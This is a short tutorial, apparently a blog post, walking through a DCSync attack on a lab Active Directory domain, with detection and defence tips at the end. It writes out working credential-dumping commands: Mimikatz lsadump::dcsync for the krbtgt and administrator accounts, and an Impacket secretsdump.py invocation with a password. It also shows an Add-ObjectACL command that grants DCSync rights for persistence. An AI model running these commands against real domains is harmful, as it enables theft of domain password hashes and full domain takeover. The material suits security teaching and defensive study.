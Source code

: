 Practical Demonstration of a DCSync Attack
Following the Assumed Breach methodology, we have access to a user's Windows machine within an Active Directory domain environment. Our next step is to do some enumeration tasks to see what privileges our vulnerable users has assigned. Enumerating group memberships reveals to use that our vulnerable users is simply a Domain User.
<img src="https://miro.medium.com/v2/resize:fit:700/1*KLAn-ipJGqILCL86YPTvWQ.png"/>
> WHOAMI /all

Using the PowerView tool, we can check to see if our vulnerable user has permissions to replicate directory services by executing the following command within the PowerView terminal:

`> Get-ObjectACL -Identity "DC=dcell,DC=local"`
<img src="https://miro.medium.com/v2/resize:fit:700/1*9ME7fs1iVSTcTDXILaaR9g.png"/>

Since our vulnerable users has Directory Services Replication privileges, we once again use Mimikatz to request and dump NTLM hashes from the domain controller by executing the below command:

lsadump::dcsync /domain:DCELL.local /user:krbtgt
<img src="https://miro.medium.com/v2/resize:fit:700/1*EX5cAjkodXwQCixZ5gB1iA.png"/>

lsadump::DCSync /domain:DCELL.local /user:administrator
<img src="https://miro.medium.com/v2/resize:fit:700/1*I3nSxXevfYeksnHlVXpX6A.png"/>

Alternatively, this can also be done using the tool Impacket. Within this tool is a Python script labeled `secretsdump.py.`

 python secretsdump.py
dcell.local/dcell1:'Uer1123'@192.168.138.130
<img src="https://miro.medium.com/v2/resize:fit:700/1*W10tn\_7Zb7L-8MQWi2eu9Q.png"/>

If an attacker is able to obtain Domain Admin privileges, first say goodbye to your domain as you will probably be locked out of it, and all backdoors or secret admin pathways you created for emergency use only will most likely be sniffed out and modified as well. Using this following PowerShell script command, we can push the Directory Services Replication as such:
> Add-ObjectACL -PrincipalIdentity Attacker -Rights DCSync

Detecting a DCSync Attack
It is important for defenders to monitor domain controllers frequently. Monitor for replication requests  by filtering for Event ID 4662. Also, keep a watchful eye for network protocols rarely used and for unknown IP addresses that are all of a sudden requesting AD Replication.
<img src="https://miro.medium.com/v2/resize:fit:700/1*7jb6prtmpomKSADB-xfbaA.png"/>

Defending Against a DCSync Attack
- Ensure that strong and complex passwords are set and strong Password policies are enforced with all employee and staff members adhering to their established procedures.
- Apply Access Control Lists (ACLs) for Replicating Directory Changes and other properties associated with AD Replication tasks.
- Ensure that users or domain admin accounts are not stored within the local administrators group.

